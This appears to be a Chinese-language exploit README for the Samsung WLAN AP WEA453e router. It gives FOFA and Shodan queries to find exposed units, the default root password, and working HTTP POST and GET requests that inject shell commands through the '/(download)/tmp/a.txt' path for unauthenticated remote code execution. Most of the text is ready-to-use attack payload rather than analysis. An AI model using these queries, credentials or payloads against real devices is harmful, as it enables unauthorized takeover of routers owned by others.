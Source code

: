 # 三星路由器WLAN AP WEA453e 未授权RCE等多个漏洞

这玩意儿国内基本上碰不到..不知道为啥要写个工具那啥再那啥....

FOFA：

```
title=="Samsung WLAN AP"
```

Shdan：

```
title:"Samsung WLAN AP"
```

路由器默认密码为：

```
root
sweap12~
```

### rce：

**POST：**

```bash
POST /(download)/tmp/a.txt HTTP/1.1
Host: forum.ywhack.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 41

command1=shell:ifconfig| dd of=/tmp/a.txt
```

**Get：**

```
/(download)/tmp/a.txt?command1=shell:ifconfig| dd of=/tmp/a.txt
```

![SamsungWLANAP](images/SamsungWLANAP.png)

ref：

* https://iryl.info/2020/11/27/exploiting-samsung-router-wlan-ap-wea453e/
* https://forum.ywhack.com/thread-114838-1-4.html
